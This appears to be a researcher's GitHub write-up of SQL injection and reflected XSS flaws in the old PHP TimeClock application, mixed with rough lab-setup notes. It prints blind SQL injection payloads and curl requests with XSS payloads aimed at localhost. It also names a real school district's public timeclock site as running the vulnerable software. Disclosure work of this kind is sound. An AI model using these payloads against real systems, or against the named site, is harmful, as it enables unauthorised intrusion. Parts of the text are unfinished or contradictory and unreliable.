 # PHP TimeClock Vulnerabilities 

This repository contains details on several vulnerabilities I found in the [PHP TimeClock](http://timeclock.sourceforge.net/) application. 



# Multiple SQL Injections (Time-Based Blind & Boolean-Based Blind)

```
Parameter: login_userid (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: login_userid=foo' RLIKE (SELECT (CASE WHEN (1542=1542) THEN 0x666f6f ELSE 0x28 END))-- QYSb&login_password=pass

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (heavy query)
    Payload: login_userid=foo' AND 7130=BENCHMARK(5000000,MD5(0x6c716b4c))-- frgB&login_password=pass
``` 


## Reflected Cross-Site Scripting via GET request 

Several resources are is vulnerable to reflective cross-site scripting via appending any payload to the end of the URL GET request. The payload should be preceeded with a single quote and greater than symbol. Vulnerable resources include, 

+ /login.php
+ /timeclock.php
+ /reports/audit.php
+ /reports/timerpt.php
+ /reports/timerpt.php

```
curl -i -s -k -X $'GET' \
    -H $'Host: localhost' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Connection: close' \
    $'http://localhost/login.php/\'%3E%3Csvg/onload=alert%60xss%60%3E'
```

*payload*: http://localhost/login.php/'%3E%3Csvg/onload=alert%60xss%60%3E%3C  

![](img/reflective-xss.png)  

## Reflective Cross-Site Scripting via multiple post parameters in /reports/total_hours.php, reports/timerpt.php, and reports/audit.php


The resources located at /reports/total_hours.php, reports/timerpt.php, and reports/audit.php are vulnerable to cross site scripting in the from_date,to_date post parameters.

![](img/xss-via-total-hours.png)

```
curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Content-Length: 242' -H $'Cache-Control: max-age=0' -H $'sec-ch-ua: \" Not A;Brand\";v=\"99\", \"Chromium\";v=\"90\"' -H $'sec-ch-ua-mobile: ?0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://localhost' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-User: ?1' -H $'Sec-Fetch-Dest: document' -H $'Referer: http://localhost/reports/total_hours.php' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'PHPSESSID=deabe86d43dc8a946b4f9a20639bc0ad' \
    --data-binary $'date_format=M%2Fd%2Fyyyy&office_name=foo&group_name=foo+group&user_name=foo&from_date=5%2F6%2F2021\'><svg/onload=alert`xss`>&to_date=5%2F6%2F2021&csv=0&tmp_paginate=1&tmp_show_details=1&tmp_display_ip=1&tmp_round_time=0&submit.x=23&submit.y=10' \
    $'http://localhost/reports/total_hours.php'
```


# Stored Cross Site Scripting in

This repository was my attempt at dockerizing the 2006 [PHP TimeClock](http://timeclock.sourceforge.net/) application. It uses an adapted version of [rodvlopes/php4-mysql4-apache2.2-docker](https://github.com/rodvlopes/php4-mysql4-apache2.2-docker) to manage setting up legacy versions of php,mysql, and apache which are required in php timeclock due to several deprecated functions. 


## Installation   

1) Clone the repo   `git clone https://github.com/tcbutler320/php-timeclock-docker`
2) cd into the docker folder `cd php-timeclock-docker/docker`
3) build docker image `docker build -f Dockerfile.ubuntu -t timeclock .`
4) Run the image `docker run -d --name timeclock --restart=always -p 80:80 -v ./data:/usr/local/mysql/var -v ./timeclock-1.04:/usr/local/apache2/htdocs timeclock`

> For now, the rest of the instructions will only be for Docker Desktop. I'll later script this out in the docker build so that it can be done automatically 

5) Using docker desktop, open the cli for the container 
6) open a mysql shell `mysql -u root -p`, using password IAmroot
7) create the timeclock database `create database timeclock;`
8) exit the mysql shell
9) populate the database with the sql file `mysql -u root -p timeclock < /usr/local/apache2/htdocs/create_tables.sql`



## Resources 
southcentralunified

http://timeclock.southcentralunified.org/timeclock.php


## Vulnerability Disovered

The southcentralunified school district is using an externally facing employee timeclock application, running a decades old PHP version (3.3) and a time management software last updated in 2006 (php-timeclock). 




## Set up Test Enviorment 

https://www.linuxquestions.org/questions/programming-9/error-compiling-php-5-2-i-know-very-old-dereferencing-pointer-to-incomplete-type-4175462232/



### Server Setup 

1) wget -c http://museum.php.net/php5/php-5.3.3.tar.gz
2) gunzip php-5.3.3.tar.gz
3) tar -xvf php-5.3.3.tar
4) cd php-5.3.3/
5) apt-get install build-essential
6) sudo apt-get install libxml2-dev
7) ./configure --prefix=$HOME/local
8) make
9) make install



## Dockerizing the PHP TimeClock Application 

> Several issues arose when trying to launch a test enviorment due to the extremly old versions of php and mysql that were last tested on the application. To get around this, a few modifications must be made 


## MySQL 

1) Changing the MySQL table structure

The MySQL table defined in the original create_tables.sql file uses several table and column names with 'group'. This has become a reserved name in MySQL, and therefore all instances of group must be changed to grp in order to import into the MySQL server

2) The earliest dockerized version of MySQL only allows `bigint` with precision up to 6, so this must be changed from the original 14   

`#1426 - Too-big precision 14 specified for 'timestamp'. Maximum is 6.`




## PHP


1) Changing the PHP mysqli_connect function call 

The original 1.03 application uses the mysqli_connect function to communicate to the database. Unfortunately, this was depricated in PHP 5.5.5, and the earliest version of PHP which is dockerized is 5.7. To get around this, we must change the sql function to mysql_connnect. 




## options 

https://github.com/rodvlopes/php4-mysql4-apache2.2-docker





## Installing PHP From Source, Solved 

> https://forums.centos.org/viewtopic.php?t=53046